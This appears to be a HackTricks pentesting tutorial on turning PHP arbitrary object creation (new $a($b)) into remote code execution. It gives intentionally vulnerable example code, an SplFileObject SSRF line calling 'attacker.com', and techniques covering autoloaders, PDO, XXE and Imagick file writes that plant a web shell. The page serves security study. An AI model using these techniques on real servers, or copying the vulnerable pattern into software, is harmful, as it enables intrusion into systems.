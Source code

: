 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Introduction

In the situation where you can create a new arbitrary object like `new $_GET["a"]($_GET["a"])`you might be able to obtain RCE, and [**this writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) exposes different ways to get RCE.

## RCE via Custom Classes or Autoloading

In the construction `new $a($b)`, the **variable `$a` stands for the class name** that the object will be created for, and the variable **`$b` stands for the first argument** that will be passed to the object’s constructor.

If `$a` and `$b` come from GET/POST, they can be **strings or string arrays**. If they come from **JSON** or elsewhere, they **might have other types**, such as object or boolean.

Let’s consider the following example:

```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

In this code, you can set  `$a`  to  `App`  or  `App2`  and  `$b`  to  `uname -a`. After this, the command  `uname -a`  will be executed.

When there are no such exploitable classes in your application, or you have the class needed in a separate file that isn’t included by the vulnerable code, you may take a look at autoloading functions.

**Autoloading functions** are set by registering callbacks via `spl_autoload_register` or by defining `__autoload`. They are called when an instance of an unknown class is trying to be created.

```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
        include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
        include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```

Depending on the PHP version, and the code in the autoloading functions, some ways to get a Remote Code Execution via autoloading might exist.

## RCE via Built-In Classes

When you don’t have custom classes and autoloading, you can rely on **built-in PHP classes only**.

There are from 100 to 200 built-in PHP classes. The number of them depends on the PHP version and the extensions installed. All of built-in classes can be listed via the `get_declared_classes` function, together with the custom classes:

```php
var_dump(get_declared_classes());
```

Classes with useful constructors can be found via [the reflection API](https://www.php.net/manual/en/book.reflection.php).

Displaying constructors and their parameters using the reflation API: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)\


![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

If you control **multiple constructor parameters and can call arbitrary methods** afterwards, there are many ways to get a Remote Code Execution. But if you can pass **only one parameter and don’t have any calls** to the created object, there is **almost nothing**.

I know of only three ways to get something from `new $a($b)`.

### **SSRF + Phar deserialization**

The `SplFileObject` class implements a constructor that allows connection to any local or remote URL:

```
new SplFileObject('http://attacker.com/');
```

This allows SSRF. Additionally, SSRFs in PHP < 8.0 could be turned into deserializations via techniques with the Phar protocol.

### **Exploiting PDOs**

The PDO class has another interesting constructor:

```php
new PDO("sqlite:/tmp/test.txt")
```

The `PDO` constructor accepts DSN strings, allowing us to **connect to any local or remote database** using **installed database extensions**. For example, the SQLite extension can create empty files.

### **SoapClient/SimpleXMLElement XXE**

In PHP ≤ 5.3.22 and ≤ 5.4.12, the constructor of SoapClient was **vulnerable to XXE**. The constructor of SimpleXMLElement was vulnerable to XXE as well, but it required libxml2 < 2.9.

## RCE via Imagick Extension

Checking the **dependencies** of the **project** you are trying to exploit you could find **new classes** that could be **abused to execute commands** creating a new object. In this case, **Imagick** was found to be useful for that purpose.

### VID parser

The VID parser allows to write arbitrary content in an arbitrary path inside the filesystem, which would allow an attacker to write a PHPshell in an accessible folder from the web page and get RCE.

![](<../../../.gitbook/assets/image (157).png>)

#### VID Parser + FIle Upload

When a file is uploaded to PHP it's temporary stored in `/tmp/phpXXXXXX` . The VID parser of Imagick with the **msl** protocol allows to **specify wildcards in the file paths** (so the temporary uploaded file can be easily accessed) and **copy it to any arbitrary location**.\
This is another way to get arbitrary file writing inside the filesystem:

![](<../../../.gitbook/assets/image (159).png>)

### PHP Crash + Brute Force

The [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) explained another way to get RCE by **uploading files with specific content** and making the **server crash before it deletes** that file and then **bruteforcing the name** of the temporary file until **Imagick executes arbitrary PHP code**.

However, apparently the **crash trick** discovered only **worked in an old version of ImageMagick**.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
